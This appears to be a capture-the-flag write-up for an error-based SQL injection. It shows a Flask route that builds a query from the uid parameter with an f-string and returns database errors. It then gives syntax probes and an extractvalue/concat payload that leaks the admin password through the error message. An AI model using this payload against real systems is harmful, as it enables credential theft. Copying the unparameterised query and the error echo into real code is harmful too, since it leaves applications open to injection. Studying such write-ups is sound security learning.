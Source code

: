 ## Solution 2: Error based sqli

Check main function
```py
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
            return template.format(uid=uid)
        except Exception as e:
            return str(e)
    else:
        return template
```

In previous solution, we had checked the execute query command
```py
cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
```

This time, we will focus on the error-handle line
```py
except Exception as e:
    return str(e)
```

So our target is to include the password in that error message.

Firstly, we have to make sure it works.

Check syntax
```sql
'--
```

It doesnot work
```
(1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Check syntax
```sql
';--
```
It works!

Now we go to the main part.

The given query is
```sql
SELECT * FROM user WHERE uid='{uid}';
```

If we send to the server ```uid```
```
' or extractvalue(1,concat(0x3a,(select upw from user where uid='admin')));--
```
